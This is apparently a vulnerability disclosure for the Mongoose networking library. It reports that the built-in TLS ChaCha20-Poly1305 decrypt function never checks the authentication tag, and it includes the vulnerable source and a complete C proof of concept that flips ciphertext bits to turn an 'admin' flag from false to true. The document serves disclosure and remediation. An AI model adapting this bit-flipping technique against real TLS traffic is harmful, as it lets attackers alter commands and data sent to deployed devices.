

# Mongoose TLS ChaCha20-Poly1305 Authentication Tag Not Verified

## Description

The `mg_chacha20_poly1305_decrypt()` function in `/src/tls_chacha20.c` never computes or verifies the Poly1305 authentication tag during decryption, completely bypassing the authentication guarantee of the AEAD cipher. The function's own comment states "first we calculate the mac and see if it lines up, only then do we decrypt" but the code immediately decrypts using `chacha20_xor_stream()` and returns without ever calling `poly1305_calculate_mac()`. Because ChaCha20 is a stream cipher, this allows a man-in-the-middle attacker to perform bit-flipping attacks on any TLS record, thus modifying encrypted data in transit with byte-level precision -- and the Mongoose device will accept the tampered record as authentic. This renders TLS connections using the built-in TLS implementation completely unauthenticated.

## Details

*   **Vendor**: Cesanta

*   **Product**: Mongoose Embedded Web Server / Networking Library

*   **Affected Version**: 7.20 (and likely all prior versions)

*   **Source Repository**: https://github.com/cesanta/mongoose

*   **Component**: `/src/tls_chacha20.c` (mg_chacha20_poly1305_decrypt function, built-in TLS)

*   **Vulnerability Type**:
    * Improper Verification of Cryptographic Signature (CWE-347)
    * Missing Required Cryptographic Step (CWE-325)

*   **CVE ID**: Requested

*   **Reported by**: dwbruijn

## Similar Vulnerabilities

* CVE-2023-40271 (Trusted Firmware-M CryptoCell ChaCha20-Poly1305 partial tag verification, only 4 of 16 tag bytes checked; Mongoose checks zero bytes)

## Vulnerable Code

The vulnerability is a missing authentication step in the decrypt function. The encrypt function correctly generates the Poly1305 tag, but the decrypt function never verifies it.

### Encrypt function (`tls_chacha20.c:1315-1328`) -- correct

```c
PORTABLE_8439_DECL size_t mg_chacha20_poly1305_encrypt(
    uint8_t *restrict cipher_text, const uint8_t key[RFC_8439_KEY_SIZE],
    const uint8_t nonce[RFC_8439_NONCE_SIZE], const uint8_t *restrict ad,
    size_t ad_size, const uint8_t *restrict plain_text,
    size_t plain_text_size) {
  size_t new_size = plain_text_size + RFC_8439_TAG_SIZE;
  if (MG_OVERLAPPING(plain_text, plain_text_size, cipher_text, new_size)) {
    return (size_t) -1;
  }
  chacha20_xor_stream(cipher_text, plain_text, plain_text_size, key, nonce, 1);
  poly1305_calculate_mac(cipher_text + plain_text_size, cipher_text,      // ✅ Tag generated
                         plain_text_size, key, nonce, ad, ad_size);
  return new_size;
}
```

### Decrypt function (`tls_chacha20.c:1330-1342`) -- vulnerable

```c
PORTABLE_8439_DECL size_t mg_chacha20_poly1305_decrypt(
    uint8_t *restrict plain_text, const uint8_t key[RFC_8439_KEY_SIZE],
    const uint8_t nonce[RFC_8439_NONCE_SIZE],
    const uint8_t *restrict cipher_text, size_t cipher_text_size) {
  // first we calculate the mac and see if it lines up, only then do we decrypt
  size_t actual_size = cipher_text_size - RFC_8439_TAG_SIZE;
  if (MG_OVERLAPPING(plain_text, actual_size, cipher_text, cipher_text_size)) {
    return (size_t) -1;
  }

  chacha20_xor_stream(plain_text, cipher_text, actual_size, key, nonce, 1);
  return actual_size;                                                     // ❌ Tag NEVER verified
}
```

The comment on line 1334 describes the correct algorithm: compute the MAC, compare it to the tag appended to the ciphertext, reject if mismatched, only then decrypt, but none of this is implemented. The function:

1. Never calls `poly1305_calculate_mac()` to recompute the expected tag
2. Never compares the recomputed tag against `cipher_text[actual_size..actual_size+16]`
3. Has no error return path for authentication failure
4. Is missing the `ad` (associated data) and `ad_size` parameters entirely, making correct tag verification impossible even if the code were added

The TLS layer at `tls_builtin.c:564` calls this function and only checks for `n == (size_t) -1` (the overlap error). Since the tag is never checked, tampered records always succeed and the decrypted data is accepted:

```c
    n = mg_chacha20_poly1305_decrypt(dec, key, nonce, msg, msgsz);
    if (n == (size_t) -1) {         // ← only catches overlap, not forgery
      mg_error(c, "decryption error");
      return -1;
    }
    memmove(msg, dec, n);           // ← tampered plaintext accepted as valid
```

## PoC

The PoC directly demonstrates the authentication bypass at the cryptographic primitive level. It encrypts a JSON message, performs a bit-flipping attack to change `"admin": false` to `"admin": true`, corrupts the Poly1305 tag with garbage, and shows that decryption succeeds with the modified plaintext.

**PoC** (`poc/tls_chacha_noauth.c`):

```c
// PoC: Mongoose ChaCha20-Poly1305 AEAD Authentication Bypass (C-1)
//
// Demonstrates that mg_chacha20_poly1305_decrypt() never verifies the
// Poly1305 authentication tag, allowing an attacker to tamper with
// ciphertext without detection.
//
// The PoC:
//   1. Encrypts a JSON message using the correct encrypt function
//      (which properly generates the Poly1305 tag)
//   2. Flips specific ciphertext bits to change "false" -> "true "
//      (stream cipher bit-flipping attack)
//   3. Corrupts the Poly1305 tag with garbage
//   4. Decrypts the tampered ciphertext
//   5. Shows that decrypt succeeds and returns the modified plaintext
//
// In a correct AEAD implementation, step 4 MUST fail because the tag
// no longer matches.  Mongoose's implementation silently accepts it.
//
// Build:
//   gcc -o tls_chacha_noauth tls_chacha_noauth.c ../mongoose.c -I.. \
//       -DMG_TLS=MG_TLS_BUILTIN -DMG_ENABLE_CHACHA20=1
//
// Run:
//   ./tls_chacha_noauth

#include "mongoose.h"

#include <stdio.h>
#include <string.h>

static void hexdump(const char *label, const uint8_t *data, size_t len) {
  printf("  %s (%zu bytes): ", label, len);
  for (size_t i = 0; i < len && i < 64; i++) printf("%02x", data[i]);
  if (len > 64) printf("...");
  printf("\n");
}

int main(void) {
  // --- Setup: key, nonce, associated data, plaintext ---
  const uint8_t key[RFC_8439_KEY_SIZE] = {
      0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08,
      0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f, 0x10,
      0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18,
      0x19, 0x1a, 0x1b, 0x1c, 0x1d, 0x1e, 0x1f, 0x20};
  const uint8_t nonce[RFC_8439_NONCE_SIZE] = {
      0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF, 0x00, 0x11, 0x22, 0x33, 0x44, 0x55};
  const uint8_t ad[] = "TLS record header";
  const char *plaintext = "{\"admin\": false, \"user\": \"guest\"}";
  size_t pt_len = strlen(plaintext);

  printf("=== Mongoose ChaCha20-Poly1305 Authentication Bypass PoC ===\n\n");
  printf("[SETUP] Plaintext: %s\n", plaintext);
  printf("[SETUP] The goal: flip \"false\" to \"true \" via bit-flipping\n\n");

  // --- Step 1: Encrypt (this correctly generates ciphertext + Poly1305 tag) ---
  uint8_t ciphertext[256];
  size_t ct_len = mg_chacha20_poly1305_encrypt(
      ciphertext, key, nonce, ad, sizeof(ad) - 1,
      (const uint8_t *) plaintext, pt_len);

  if (ct_len == (size_t) -1) {
    printf("Encryption failed\n");
    return 1;
  }

  printf("[STEP 1] Encrypted %zu plaintext bytes -> %zu bytes (includes 16-byte tag)\n", pt_len, ct_len);
  hexdump("Ciphertext", ciphertext, ct_len - RFC_8439_TAG_SIZE);
  hexdump("Poly1305 tag", ciphertext + ct_len - RFC_8439_TAG_SIZE, RFC_8439_TAG_SIZE);

  // --- Step 2: Verify legitimate decryption works ---
  uint8_t decrypted[256];
  size_t dec_len = mg_chacha20_poly1305_decrypt(
      decrypted, key, nonce, ciphertext, ct_len);
  decrypted[dec_len] = '\0';

  printf("\n[STEP 2] Legitimate decryption: \"%s\" (%zu bytes)\n", decrypted, dec_len);

  // --- Step 3: Tamper with the ciphertext (bit-flipping attack) ---
  //
  // ChaCha20 is a stream cipher: ciphertext[i] = plaintext[i] XOR keystream[i]
  // If we XOR ciphertext[i] with (old_byte XOR new_byte), the decrypted byte
  // changes from old_byte to new_byte.
  //
  // We change "false" (5 bytes) to "true " (5 bytes) at offset 10 in the
  // plaintext: {"admin": false, ...}
  //                      ^^^^^
  //                      offset 10

  uint8_t tampered[256];
  memcpy(tampered, ciphertext, ct_len);

  size_t offset = 10;  // position of "false" in the JSON
  uint8_t xor_mask[] = {
      'f' ^ 't',  // 0x12
      'a' ^ 'r',  // 0x13
      'l' ^ 'u',  // 0x19
      's' ^ 'e',  // 0x16
      'e' ^ ' ',  // 0x45
  };

  printf("\n[STEP 3] Tampering with ciphertext (bit-flipping attack)\n");
  printf("  Target: bytes %zu-%zu (\"false\" -> \"true \")\n", offset, offset + 4);
  printf("  XOR mask: ");
  for (size_t i = 0; i < sizeof(xor_mask); i++) printf("%02x ", xor_mask[i]);
  printf("\n");

  for (size_t i = 0; i < sizeof(xor_mask); i++) {
    tampered[offset + i] ^= xor_mask[i];
  }

  // Also corrupt the Poly1305 tag to prove it's never checked
  printf("  Corrupting Poly1305 tag with 0xFF bytes\n");
  memset(tampered + ct_len - RFC_8439_TAG_SIZE, 0xFF, RFC_8439_TAG_SIZE);

  hexdump("Tampered ciphertext", tampered, ct_len - RFC_8439_TAG_SIZE);
  hexdump("Corrupted tag", tampered + ct_len - RFC_8439_TAG_SIZE, RFC_8439_TAG_SIZE);

  // --- Step 4: Decrypt the tampered ciphertext ---
  uint8_t tampered_dec[256];
  size_t tampered_len = mg_chacha20_poly1305_decrypt(
      tampered_dec, key, nonce, tampered, ct_len);

  printf("\n[STEP 4] Decrypting tampered ciphertext...\n");

  if (tampered_len == (size_t) -1) {
    printf("  Decryption REJECTED the tampered ciphertext (expected behavior)\n");
    printf("\n=== PASS: AEAD authentication is working correctly ===\n");
    return 1;
  }

  tampered_dec[tampered_len] = '\0';

  printf("  Decryption ACCEPTED the tampered ciphertext!\n");
  printf("  Return value: %zu (not -1, so no error detected)\n", tampered_len);

  // --- Step 5: Show the result ---
  printf("\n=== Result ===\n");
  printf("  Original plaintext:  %s\n", plaintext);
  printf("  Tampered plaintext:  %s\n", (char *) tampered_dec);
  printf("  Tag was corrupted:   YES (all 0xFF)\n");
  printf("  Decryption returned: success (%zu bytes)\n", tampered_len);

  bool admin_flipped = strstr((char *) tampered_dec, "true") != NULL;

  if (admin_flipped) {
    printf("\n*** AEAD AUTHENTICATION BYPASS CONFIRMED ***\n");
    printf("We changed {\"admin\": false} to {\"admin\": true }\n");
    printf("with a corrupted Poly1305 tag, and Mongoose accepted it.\n");
    return 0;
  }

  printf("\nBit-flip did not produce expected result.\n");
  return 1;
}
```

### Triggering the vulnerability

Create a `poc` directory in the mongoose repo directory. Copy `tls_chacha_noauth.c` into the `poc` directory.

```bash
# Build PoC
cd poc
gcc -o tls_chacha_noauth tls_chacha_noauth.c ../mongoose.c -I.. \
    -DMG_TLS=MG_TLS_BUILTIN -DMG_ENABLE_CHACHA20=1

# Run
./tls_chacha_noauth
```

**Output:**



We managed flipped 5 bytes in the ciphertext to change `"admin": false` to `"admin": true`, overwrote the entire Poly1305 tag with `0xFF`, and `mg_chacha20_poly1305_decrypt()` accepted the tampered ciphertext without any error.

## Potential Impact

The missing Poly1305 tag verification completely eliminates the authentication guarantee of TLS. Every TLS connection using Mongoose's built-in TLS with ChaCha20-Poly1305 (the default cipher suite) provides **encryption without authentication**, which is a well-known broken configuration.

**Direct consequences:**

*   **Bit-flipping attacks**: ChaCha20 is a stream cipher, so XORing a byte in the ciphertext flips the corresponding plaintext byte. An attacker who knows (or can guess) the plaintext at any position can change it to any desired value. This enables surgical modification of HTTP headers, JSON fields, MQTT payloads, or any other application data flowing over TLS.

*   **Selective data modification**: Unlike attacks that corrupt data randomly, stream cipher bit-flipping gives the attacker byte-level precision. An attacker can change `"role":"user"` to `"role":"root"`, flip boolean flags, modify numeric values, or alter URLs -- all within an "encrypted" TLS connection.

*   **Credential and session hijacking**: If the Mongoose device sends authentication tokens, API keys, or session identifiers over TLS, an attacker can modify these in transit to substitute their own values, hijacking authenticated sessions.

*   **Malicious command injection**: For IoT devices receiving commands over TLS (MQTT, HTTP APIs), an attacker can modify command payloads to control physical actuators, change device configuration, or trigger dangerous operations -- while the device believes it is communicating securely with its legitimate server.

*   **False sense of security**: Applications relying on TLS for data integrity have zero integrity protection. The connection appears encrypted (and confidentiality is preserved against passive observers) but provides no guarantee that data has not been modified by an active attacker.

